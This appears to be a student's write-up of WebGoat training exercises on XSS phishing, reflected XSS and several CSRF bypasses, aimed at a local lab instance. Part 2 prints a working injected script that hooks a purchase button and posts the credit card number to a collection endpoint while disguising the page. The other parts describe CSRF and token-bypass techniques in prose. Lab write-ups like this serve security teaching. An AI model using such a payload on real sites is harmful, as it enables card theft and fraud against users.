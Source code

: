 part 1 Explanation:
Phishing with XSS
A form was used to collect user's information. When the user click the button, post the info to target URL.

part 2 Explanation:
Reflected XSS Attacks
The three digit access code input is exploitable.
Readable version of the URL
http://localhost:8090/WebGoat/start.mvc#attack/752417971/900?input1=000&input2=
<script>
    var btn = document.getElementsByName("buy")[0];
    btn.addEventListener('click', function () { steal(); }, false);
    function steal() {
        $.ajax({ type: "POST", url: "catcher?PROPERTY=yes&stolen-credit-card=" + document.getElementsByName("input1")[0].value, });
    }
    document.getElementsByName("input2")[0].value = "000";
    document.getElementById("message").style.display = "none";
</script>
Explanation:Add an event listener to the Purchase button. When the user click the button, post the credit card number to target URL. Using DOM operation to change the input2 value so that we can make the page with the injected script looks as close as the original page

part 3 Explanation:
Cross Site Request Forgery (CSRF)
The message is exploitable. We can put the url inside an image element.


Part 4 Explanation:
CSRF Prompt By-Pass
Using two image element to fetch the target url. The first image uses to start the transfer and the second image uses to confirm the transfer.

Part 5 Explanation:
CSRF Token By-Pass
The message is exploitable. We can use a frame to get the token first and then use another frame to start the transfer with the token.